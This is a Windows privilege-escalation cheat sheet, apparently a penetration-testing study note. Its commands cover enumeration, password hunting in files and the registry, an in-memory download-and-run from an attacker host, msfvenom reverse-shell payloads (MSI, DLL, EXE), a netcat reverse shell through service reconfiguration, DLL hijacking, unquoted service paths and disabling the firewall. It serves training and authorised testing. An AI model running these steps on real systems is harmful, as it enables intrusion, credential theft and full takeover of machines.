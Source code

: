 ############################
Windows Privilege Escalation
############################

TODO
====

* https://github.com/mubix/post-exploitation
* https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
* https://github.com/pentestmonkey/windows-privesc-check
* https://github.com/togie6/Windows-Privesc
* https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
* https://guif.re/windowseop
* https://lolbas-project.github.io/
* https://github.com/sagishahar/lpeworkshop
* https://ostrokonskiy.com/posts/windows-privilege-escalation.html
* https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html
* https://github.com/frizb/Windows-Privilege-Escalation
* https://github.com/rasta-mouse/Watson
* https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
* https://github.com/codingo/OSCP-2
* https://labs.portcullis.co.uk/blog/windows-named-pipes-there-and-back-again/
* https://github.com/psychomario/pyinject
* https://resources.infosecinstitute.com/poor-mans-process-migration-windows/
* https://toshellandback.com/2015/11/24/ms-priv-esc/21/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
* https://github.com/skelsec/pypykatz
* https://github.com/Ben0xA/nps
* https://mysecurityjournal.blogspot.com/p/client-side-attacks.html
* http://virgil-cj.blogspot.com/2018/02/escalation-time.html

Quick Wins
==========

1. Windows OS exploits. Google "<Windows Version> privilege escalation" for some of the more popular ones. Add "x86" or "x64" to be more specific. searchsploit can be used as well, though sometimes the name / description won't include the specific version number.

2. Program exploits. Look for non-default programs installed. Try to enumerate version. Google + searchsploit.

3. Use accesschk.exe to check for services / files with bad permissions.

4. Check for passwords in files / the registry. We might get lucky and be able to RDP in. (reg query "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\Currentversion\\Winlogon")

5. Use "Citrix" breakout techniques if we have a GUI that is running as SYSTEM. Many ways to spawn a shell.

6. Are we running as "nt authority\\network service"? Use token kidnapping (churrasco.exe).


Information Gathering
=====================

Automated Scripts
-----------------

| **Powerless:** :download:`Powerless.bat </_static/files/Powerless.bat>` (https://github.com/M4ximuss/Powerless)
| **Windows Enumeration Script:** :download:`winenum.bat </_static/files/winenum.bat>` (https://github.com/h1gh1and3r/Pentesting/blob/master/Scripts/winenum.bat)
| **Windows Enumeration Powershell Script:** :download:`WindowsEnum.ps1 </_static/files/WindowsEnum.ps1>` (https://github.com/stillinsecure/WindowsEnum/blob/master/WindowsEnum.ps1)
| **WMIC Info Script:** :download:`wmic_info.bat </_static/files/wmic_info.bat>` (http://www.fuzzysecurity.com/scripts/files/wmic_info.rar)
| https://github.com/AlessandroZ/BeRoot

PowerUp
^^^^^^^

| https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

PowerUp is part of the PowerSploit framework. It will search for various privilege escalation methods. Either download the script onto the target and run via a PowerShell instance:

.. code-block:: none

    C:\> powershell.exe -nop -exec bypass
    PS C:\> Import-Module .\PowerUp.ps1
    PS C:\> Invoke-AllChecks

Or run from cmd.exe directly:

.. code-block:: none

    powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"

If uploading to the target is difficult, we can run from memory:

.. code-block:: none

    powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<attacker-ip>:<attacker-port>/PowerUp.ps1'); Invoke-AllChecks"

WindowsEnum
^^^^^^^^^^^

**Requires PowerShell 3.0+**

| https://github.com/stillinsecure/WindowsEnum/blob/master/WindowsEnum.ps1

.. code-block:: none

    C:\> powershell.exe -nop -exec bypass
    PS C:\> .\WindowsEnum.ps1 extended

.. code-block:: none

    C:\> powershell.exe -nologo -exec bypass bypass -file WindowsEnum.ps1 extended

Windows Exploit Suggester - Next Generation
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

| https://github.com/bitsadmin/wesng

Save the output of the :code:`systeminfo` command and pass it to the program:

.. code-block:: none

    python3 wes.py systeminfo.txt | grep --color -B5 "Privilege" | less

Sherlock
^^^^^^^^

An outdated PowerShell script which shows you exploits that are available for the current system. Either download the script onto the target and run via a PowerShell instance:

.. code-block:: none

    C:\> powershell.exe -nop -exec bypass
    PS C:\> Import-Module .\Sherlock.ps1
    PS C:\> Find-AllVulns

Or run from cmd.exe directly:

.. code-block:: none

    powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

If uploading to the target is difficult, we can run from memory:

.. code-block:: none

    powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<attacker-ip>:<attacker-port>/Sherlock.ps1'); Find-AllVulns"

**Windows Kernel Exploits:** https://github.com/SecWiki/windows-kernel-exploits

Code and (sometimes) compiled executables that exploit kernel vulnerabilities.

System Information
------------------

Information about the operating system, version, hostname, etc.

.. code-block:: none

	systeminfo
	hostname
	systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
	type C:\Windows\system32\eula.txt
	type C:\Windows\System32\license.rtf

Pass the output of systeminfo to wes.py with an updated microsoft security bulletin database:

.. code-block:: bash

    python3 wes.py --update
    python3 wes.py systeminfo.txt | grep --color -B5 "Privilege" | less

Who Are We?
-----------

Methods to figure out which user we are currently logged in as.

.. code-block:: none

	whoami
	echo %username%

If neither of the above work, try:

.. code-block:: none

    title offsec && for /f "tokens=2,8" %a in ('tasklist /v ^| findstr "offsec"') do echo Current User: %b, Current PID: %a

Environment
-----------

Environment variables can often reveal interesting information:

.. code-block:: none

    set
    echo %path%

Installed Apps
--------------

List installed apps    

.. code-block:: none

	wmic product get name,version     - cmd
	Get-AppxPackage        - powershell
	Get-AppPackage         -powershell


**Powershell all in one script(Works well shows all hidden apps from registries):**    

.. code-block:: none

	foreach ($UKey in 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*','HKLM:\SOFTWARE\Wow6432node\Microsoft\Windows\CurrentVersion\Uninstall\*','HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*','HKCU:\SOFTWARE\Wow6432node\Microsoft\Windows\CurrentVersion\Uninstall\*'){foreach ($Product in (Get-ItemProperty $UKey -ErrorAction SilentlyContinue)){if($Product.DisplayName -and $Product.SystemComponent -ne 1){$Product.DisplayName}}}



Directory Listing
-----------------

List all directories, including hidden and Alternate Data Streams (ADS):

.. code-block:: none

    dir /r

Get the list of folders and files in tree structure:

.. code-block:: none

    tree /a /f

Files
-----

Read file contents:

.. code-block:: none

    type file.txt
    powershell Get-Content file.txt

Find alternate data streams (ADS):

.. code-block:: none

    dir /R <directory>

Find alternate data streams with powershell:

.. code-block:: none

    powershell Get-Item -Path <directory> -Stream *

Read the alternate data stream (ADS) (note: only works on NT6+):

.. code-block:: none

    powershell Get-Content file.txt -Stream hidden.txt

Show file permissions:

.. code-block:: none

    cacls file.txt
    icacls file.txt
    powershell Get-Acl file | fl *

User / Group Enumeration
------------------------

List users and user groups on the machine.

.. code-block:: none

	net users
	net localgroup

List Administrators:

.. code-block:: none

    net localgroup Administrators

View User Info
--------------

List information about a specific user (use against your current user, and any users identified)

.. code-block:: none

	net user user1

Especially of interest would be any groups our user has other than "Users".

List Domain Groups
------------------

List any groups which are part of the domain.

.. code-block:: none

	net group /domain

List Members of Domain Group
----------------------------

List members of domain groups previously identified.

.. code-block:: none

	net group /domain <Group Name>

Find other Windows hosts on the network
---------------------------------------

.. code-block:: none

    net view

Drives
------

List configured disk drives.

.. code-block:: none

    wmic logicaldisk get name
    wmic logicaldisk get caption
    fsutil fsinfo drives
    powershell -Command "get-psdrive -psprovider filesystem"

List locally shared drives:

.. code-block:: none

    net share

Network
-------

Display network interfaces, the routing table, and the ARP cache for the host.

.. code-block:: none

	ipconfig /all
	route print
	arp -A

Active Connections
------------------

Display all active connections, plus any local ports that are being listened to by a process. A local address of "0.0.0.0" or "[::]" implies that the process is listening for external connections.

.. code-block:: none

	netstat -ano
    netstat /anto

Firewall
--------

Display the state of the firewall, plus the current configuration.

Note: the "netsh" command is only available from XP SP2 onwards.

.. code-block:: none

    netsh firewall show state
    netsh firewall show config
    netsh advfirewall show all
    netsh advfirewall firewall show rule profile=any name=all

Scheduled Tasks
---------------

This will usually display a long detailed list of currently scheduled tasks, including ones that run on boot.

.. code-block:: none

	schtasks /query /fo LIST /v

Look for tasks where "Run As User" is set to some user with high privileges (e.g. SYSTEM). See if we can overwrite the executable.

Viewing loaded DLLs
-------------------

View all loaded DLLs

.. code-block:: none

    tasklist /m

Find specific DLLs

.. code-block:: none

    tasklist /m | find /i <dll name>

Running Processes (with Service Names)
--------------------------------------

List all running processes, plus PID and service name.

.. code-block:: none

	tasklist /SVC

List Started Services
---------------------

List the names of services which are running.

.. code-block:: none

	net start

List Services
-------------

List all services with statuses and some other info. Run without "brief" for way more details.

.. code-block:: none

	wmic service list brief

List Installed Device Drivers
-----------------------------

.. code-block:: none

	driverquery

Check Patches
-------------

.. code-block:: none

    wmic qfe get Caption,Description,HotFixID,InstalledOn

    wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

The best strategy is to look for privilege escalation exploits and look up their respective KB patch numbers. Such exploits include, but are not limited to, KiTrap0D (KB979682), MS11-011 (KB2393802), MS10-059 (KB982799), MS10-021 (KB979683), MS11-080 (KB2592799). After enumerating the OS version and Service Pack you should find out which privilege escalation vulnerabilities could be present. Using the KB patch numbers you can grep the installed patches to see if any are missing.

Mass Rollout Files
------------------

If there is an environment where many machines need to be installed, typically, a technician will not go around from machine to machine. There are a couple of solutions to install machines automatically. What these methods are and how they work is less important for our purposes but the main thing is that they leave behind configuration files which are used for the installation process. These configuration files contain a lot of sensitive sensitive information such as the operating system product key and Administrator password. What we are most interested in is the Admin password as we can use that to escalate our privileges.

.. code-block:: none

    c:\sysprep.inf
    c:\sysprep\sysprep.xml
    %WINDIR%\Panther\Unattend\Unattended.xml
    %WINDIR%\Panther\Unattended.xml

Group Policy
------------

Group Policy preference files can be used to create local users on domain machines. When the box you compromise is connected to a domain it is well worth looking for the Groups.xml file which is stored in SYSVOL. Any authenticated user will have read access to this file.

The default location for SYSVOL is:

.. code-block:: none

    %SYSTEMROOT%\SYSVOL

Dump the current GPO for the host / user:

.. code-block:: none

    gpresult /R > gpo_results.txt

In addition to Groups.xml several other policy preference files can have the optional "cPassword" attribute set:

* Services\Services.xml: `Element-Specific Attributes <http://msdn.microsoft.com/en-us/library/cc980070.aspx>`__
* ScheduledTasks\ScheduledTasks.xml: `Task Inner Element <http://msdn.microsoft.com/en-us/library/cc422920.aspx>`__, `TaskV2 Inner Element <http://msdn.microsoft.com/en-us/library/dd341350.aspx>`__, `ImmediateTaskV2 Inner Element <http://msdn.microsoft.com/en-us/library/dd304114.aspx>`__
* Printers\Printers.xml: `SharedPrinter Element <http://msdn.microsoft.com/en-us/library/cc422918.aspx>`__
* Drives\Drives.xml: `Element-Specific Attributes <http://msdn.microsoft.com/en-us/library/cc704598.aspx>`__
* DataSources\DataSources.xml: `Element-Specific Attributes <http://msdn.microsoft.com/en-us/library/cc422926.aspx>`__

AlwaysInstallElevated
---------------------

If the AlwaysInstallElevated registry setting is enabled it allows users of any privilege level to install \*.msi files as NT AUTHORITY\\SYSTEM.

.. code-block:: none

    # This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.

    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

If both keys are enabled, create a .msi payload:

.. code-block:: none

    msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=53 -f msi -o /path/to/payload.msi

After uploading the payload, it can be executed using msiexec:

.. code-block:: none

    msiexec /quiet /qn /i payload.msi

| /quiet = suppress messages
| /qn = No GUI
| /i = Regular installation


Search Files / Registry
-----------------------

Search for files with filenames containing certain words:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Search certain file types for a keyword, this can generate a lot of output:

.. code-block:: none

    findstr /si password *.xml *.ini *.txt

Search the registry for keywords, in this case "password":

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

accesschk.exe
-------------

The accesschk.exe binary can be used to enumerate group permissions on Windows services. The following table shows the permissions which are useful to us:

.. csv-table::
    :header: "Permission", "Use Case"

    "SERVICE_ALL_ACCESS", "Can do anything."
    "SERVICE_CHANGE_CONFIG", "Can reconfigure the service binary."
    "WRITE DAC", "Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG."
    "WRITE_OWNER", "Can become owner, reconfigure permissions."
    "GENERIC_WRITE", "Inherits SERVICE_CHANGE_CONFIG"
    "GENERIC_ALL", "Inherits SERVICE_CHANGE_CONFIG"

:download:`Download accesschk.exe </_static/files/accesschk.exe>`

List all services and the permissions each user level has on them.

.. code-block:: none

    accesschk.exe /accepteula -ucqv *

List services which the "Authenticated Users" user group have permissions over (remember to check other user groups you are a member of).

.. code-block:: none

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

List permissions for a specific service:

.. code-block:: none

    accesschk.exe /accepteula -ucqv Spooler

List permissions for a specific directory:

.. code-block:: none

    accesschk.exe /accepteula -dqv "C:\Path"

Find all weak folder permissions per drive:

.. code-block:: none

    accesschk.exe /accepteula -uwdqs Users C:\
    accesschk.exe /accepteula -uwdqs "Authenticated Users" C:\

Find all weak file permissions per drive:

.. code-block:: none

    accesschk.exe /accepteula -uwqs Users C:\*.*
    accesschk.exe /accepteula -uwqs "Authenticated Users" C:\*.*

Examples
========

Weak Service Permissions
------------------------

Reconfiguring the upnphost service to execute a netcat reverse shell with SYSTEM level privileges:

.. code-block:: none

    C:\> accesschk.exe /accepteula -ucqv upnphost

    upnphost

      RW NT AUTHORITY\SYSTEM
            SERVICE_ALL_ACCESS
      RW BUILTIN\Administrators
            SERVICE_ALL_ACCESS
      RW NT AUTHORITY\Authenticated Users
            SERVICE_ALL_ACCESS
      RW BUILTIN\Power Users
            SERVICE_ALL_ACCESS
      RW NT AUTHORITY\LOCAL SERVICE
            SERVICE_ALL_ACCESS

    C:\> sc qc upnphost

    [SC] GetServiceConfig SUCCESS

    SERVICE_NAME: upnphost
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 3   DEMAND_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Universal Plug and Play Device Host
            DEPENDENCIES       : SSDPSRV
            SERVICE_START_NAME : NT AUTHORITY\LocalService

    C:\> sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
    [SC] ChangeServiceConfig SUCCESS

    C:\> sc config upnphost obj= ".\LocalSystem" password= ""
    [SC] ChangeServiceConfig SUCCESS

    C:\> sc qc upnphost

    [SC] GetServiceConfig SUCCESS

    SERVICE_NAME: upnphost
            TYPE               : 20  WIN32_SHARE_PROCESS
            START_TYPE         : 3   DEMAND_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : Universal Plug and Play Device Host
            DEPENDENCIES       : SSDPSRV
            SERVICE_START_NAME : LocalSystem

    C:\> net start upnphost

Power Users
-----------

On Windows XP and below, users in the "Power Users" group can easily elevate themselves to fully-privileged administrators.

The following article describes some methods, but most are already covered if you have used accesschk.exe properly above: https://blogs.technet.microsoft.com/markrussinovich/2006/05/01/the-power-in-power-users/

DLL Hijacking
-------------

Source: http://www.greyhathacker.net/?p=738

If an SYSTEM-level application / service references a DLL that we have write access to, we can replace it and get a SYSTEM-level shell. If the application / service references a DLL which doesn't exist, getting a SYSTEM-level shell may still be possible.

Find executables and DLLs that are directly called by the application / service, and open them in a decompiler to find references to other DLLs.

Generally a Windows application will use pre-defined search paths to find DLLs and it will check these paths in a specific order. DLL hijacking usually happens by placing a malicious DLL in one of these paths while making sure that DLL is found before the legitimate one. This problem can be mitigated by having the application specify absolute paths to the DLLs that it needs.

You can see the DLL search order on 32-bit systems below:

1. The directory from which the application loaded
2. 32-bit System directory (C:\\Windows\\System32)
3. 16-bit System directory (C:\\Windows\\System)
4. Windows directory (C:\\Windows)
5. The current working directory (CWD)
6. Directories in the PATH environment variable (system then user)

Sometimes an application / service attempts to load a DLL which does not exist on the machine. In these cases, Windows will attempt to find it by traversing the search paths above. Putting a DLL in 1-4 is not possible, 5 would only work for applications and not Windows services. If a user has write access to any of the directories in the Windows PATH, escalation is possible.

Check the current path:

.. code-block:: none

    echo %path%

Check access permissions with accesschk.exe or cacls:

.. code-block:: none

    accesschk.exe /accepteula -dqv "C:\Python27"

    cacls "C:\Python27"

Check status of vulnerable service. If the START_TYPE is set to AUTO_START it will launch on boot.

.. code-block:: none

    sc qc IKEEXT

Create a malicious DLL:

.. code-block:: none

    msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=53 -f dll -o payload.dll

Replace the original DLL with the malicious version and restart the application / service.

Known Vulnerable Windows Services
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

.. csv-table:: **Windows 7 (32/64)**
    :header: "Service", "DLL"

    "IKE and AuthIP IPsec Keying Modules (IKEEXT)", "wlbsctrl.dll"
    "Windows Media Center Receiver Service (ehRecvr)", "ehETW.dll"
    "Windows Media Center Scheduler Service (ehSched)", "ehETW.dll"

The Windows Media Center Services startup type is set to manual and status not started and will only give us only Network service privileges so it may not be much use especially with its limited privileges. It can however be started temporarily via certain scheduled tasks:

.. code-block:: none

    schtasks.exe /run /I /TN "\Microsoft\Windows\Media Center\mcupdate"
    schtasks.exe /run /I /TN "\Microsoft\Windows\Media Center\MediaCenterRecoveryTask"
    schtasks.exe /run /I /TN "\Microsoft\Windows\Media Center\ActivateWindowsSearch"

.. csv-table:: **Windows XP**
    :header: "Service", "DLL"

    "Automatic Updates (wuauserv)", "ifsproxy.dll"
    "Remote Desktop Help Session Manager (RDSessMgr)", "SalemHook.dll"
    "Remote Access Connection Manager (RasMan)", "ipbootp.dll"
    "Windows Management Instrumentation (winmgmt)", "wbemcore.dll"
    "Audio Service (STacSV)", "SFFXComm.dll, SFCOM.DLL"
    "Intel(R) Rapid Storage Technology (IAStorDataMgrSvc)", "DriverSim.dll"
    "Juniper Unified Network Service(JuniperAccessService)", "dsLogService.dll"
    "Encase Enterprise Agent", "SDDisk.dll"

Abusing unquoted ImagePath values that contain spaces
-----------------------------------------------------

When SC starts a service, if the ImagePath contains a space then you can abuse a Windows feature which attempts to find an executable at every space location.

Find a service that has an unquoted service path:

.. code-block:: none

    reg query HKLM/system/currentcontrolset/services/SkypeUpdate
    ...
    ImagePath    REG_EXPAND_SZ    C:\Program Files (x86)\Skype\Updater.exe
    ...

When this service is started, Windows will walk the directory structure and attempt to execute an .exe at each space (C:\Program.exe, C:\Program Files.exe, etc.)

Create a malicious .exe file:

.. code-block:: none

    msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=53 -f exe -o Program.exe

Move the .exe to C:\ and restart the service.

.. code-block:: none

    copy Program.exe C:\Program.exe
    sc stop SkypeUpdate
    sc start SkypeUpdate

Disable Windows Firewall
------------------------

.. code-block:: none

    netsh advfirewall set allprofiles state off
    netsh firewall set opmode disable

Sources
=======

* http://www.fuzzysecurity.com/tutorials/16.html
